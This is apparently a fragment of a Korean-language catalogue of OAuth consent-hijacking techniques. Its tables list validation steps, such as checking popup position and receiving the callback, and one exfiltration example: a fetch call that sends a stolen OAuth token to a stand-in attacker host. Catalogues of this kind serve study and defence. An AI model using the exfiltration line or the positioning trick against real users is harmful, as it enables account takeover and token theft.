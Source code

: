 ### Validation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>OAuth Token Receipt Verification</td>
      <td><pre><code>GET /callback?code=...</code></pre></td>
      <td>공격자의 서버에서 OAuth 제공자로부터 위와 같은 콜백 요청을 수신하는지 확인한다. 이는 피해자가 모르게 클릭한 OAuth 동의가 처리되었음을 의미한다.</td>
      <td>[1], [2]</td>
    </tr>
    <tr>
      <td>Real-time Positional Validation</td>
      <td><pre><code>window.screenX, window.screenY</code></pre></td>
      <td>팝업 창의 위치와 부모 창 렌더링 상태를 실시간으로 확인해, 민감 버튼이 커서 아래에 정확히 위치했는지 검증한다.</td>
      <td>[3]</td>
    </tr>
  </tbody>
</table>

### Exfiltration

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>OAuth Token Exfiltration</td>
      <td>
        <pre><code>fetch('https://example.com/log?tok='+token)</code></pre>
      </td>
      <td>획득한 OAuth 액세스 토큰이나 세션 쿠키를 공격자 제어 서버로 전송하여 지속적 접근 권한을 확보한다.</td>
      <td>[1], [2]</td>
    </tr>
  </tbody>
</table>

## 분류에 해당하는 문서
